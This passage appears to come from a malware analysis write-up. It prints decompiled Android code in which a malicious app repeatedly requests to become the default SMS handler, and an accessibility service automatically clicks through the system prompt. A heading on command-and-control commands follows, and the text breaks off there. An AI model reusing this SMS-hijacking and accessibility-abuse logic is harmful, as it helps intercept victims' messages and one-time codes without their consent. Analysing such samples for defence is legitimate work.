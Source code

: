 ```cs
        int v = 0;
        while(true) {
            String s = Telephony.Sms.getDefaultSmsPackage(this);
            if((this.setOurAppAsHidden) && (this.Tools.isDefaultSMSApp(this)) || !this.setOurAppAsHidden && !this.Tools.isDefaultSMSApp(this)) {
                this.Tools.Log(this, "<font color=lime>Current SMS Messanger is: " + s + "</font>", boolean0);
                ServiceAccessibility.autoClickForSmsManager = false;
                ServiceHiddenSMS.isRunning = false;
                this.stopSelf();
                return;
            }

            ServiceAccessibility.autoClickForSmsManager = true;
            if(v > 15) {
                this.Tools.Log(this, "[ServiceHiddenSMS] Too many retries...", boolean0);
                ServiceAccessibility.autoClickForSmsManager = false;
                ServiceHiddenSMS.isRunning = false;
                this.stopSelf();
                return;
            }

            this.Tools.Log(this, "[ServiceHiddenSMS] Asking for SMS Change", Boolean.valueOf(false));
            ++v;
            if(this.setOurAppAsHidden) {
                Intent intent1 = new Intent("android.provider.Telephony.ACTION_CHANGE_DEFAULT");
                intent1.addFlags(0x10000000);
                intent1.addFlags(0x40000000);
                intent1.putExtra("package", this.getPackageName());
                this.startActivity(intent1);
            }
            else {
                Intent intent2 = new Intent("android.provider.Telephony.ACTION_CHANGE_DEFAULT");
                intent2.addFlags(0x10000000);
                intent2.addFlags(0x40000000);
                intent2.putExtra("package", this.store.get(this, "SMSDefaultApp"));
                this.startActivity(intent2);
            }

            Utils.doWait(2000L);
        }
    }
```


# Commands

These are **not** all the commands which are recived by the malware from the C2 server such as 

